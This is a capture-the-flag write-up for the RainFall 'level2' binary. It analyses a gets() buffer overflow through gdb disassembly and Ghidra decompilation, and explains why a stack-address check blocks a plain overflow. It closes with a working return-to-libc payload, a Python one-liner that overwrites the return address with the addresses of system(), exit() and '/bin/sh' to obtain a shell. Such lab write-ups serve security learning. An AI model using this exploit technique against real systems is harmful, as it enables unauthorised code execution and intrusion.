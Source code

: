 ## Basic examination
There is a single executable **level2**. We run it:
~~~bash
./level2
42 let me pass
42 let me pass
~~~
As we can see,it waits for a stdin input and than prints it. Let's examine the function.

## Assembly dump analysis
As usual, we run **gdb** for a assembly dump for main:
~~~assembly
    0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>  <-- calls function p() and returns 0
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
~~~
As we can see, it just call one function and returns, so the printing must happen in **p()** function. Let's analyze:
~~~assembly
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>    <-- vulnerable gets() again, like in previous level
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
~~~
We can see there is a buffer overflow vulnerable function **gets()** again, but this time there is no system call thant will let us further. So we must think about the way how to force the execution of what we need. We can use **Ghidra** that will help us understand a little more about p() function with its decompile abilities.
~~~C
void p(void)
{
  void *unaff_retaddr;   //uninitiated void pointer, from the name we can assume it is for storing return address. 
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if (((uint)unaff_retaddr & 0xb0000000) == 0xb0000000) {             //casted as unsigned int (4 bytes), comparing the return address with bitwise AND with 0xb0000000
    printf("(%p)\n",unaff_retaddr);                                   //if true, prints it and exits with 1.
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
~~~
We can already see that the program is **allocating 80 bytes, 76 for the string and 4 bytes for uint variable (4 bytes on 32 bit systems)**. From what we already know about **stack frame** for program execution, this will be our potential offset for force execution of what we might need on the place of the return memory address. **BUT!** this code is little wittier, as the return address comparation here is effectivelly blocking the classical buffer overflow. Why? Read the stuff [HERE](https://unix.stackexchange.com/questions/509607/how-a-64-bit-process-virtual-address-space-is-divided-in-linux). As we can see, 0xbf****** address ranges are historically associated with user memory on 32 bit x86 systems - the stack, in other words. So, the code above is blocking the execution of the return memory addresses located on the stack, exiting the flow when it finds such. Fortunatelly, there is also a **heap**...

## Return to libc
We will use the [**return to libc**](https://en.wikipedia.org/wiki/Return-to-libc_attack) type of attack that is not utiliying the stack but rather works with stuff already in process memory. We construct the attack using this flow
~~~
overflow on offset -> p() return address -> mem address of system() -> exit() -> mem address of "/bin/sh"
~~~
Return address of **p()** is **0x0804853e**.
Using gdb's brakepoint, we will find the rest of what we need:
~~~bash
(gdb) b p
Breakpoint 1 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x080484da in p ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find 0xb7e6b060, +9999999, "/bin/sh"
0xb7f8cc58
~~~
Now we use this to construct the attack:
~~~bash
level2@RainFall:~$  python -c 'print "F" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1]' > /tmp/flag2
level2@RainFall:~$ cat /tmp/flag2 - | ./level2
~~~


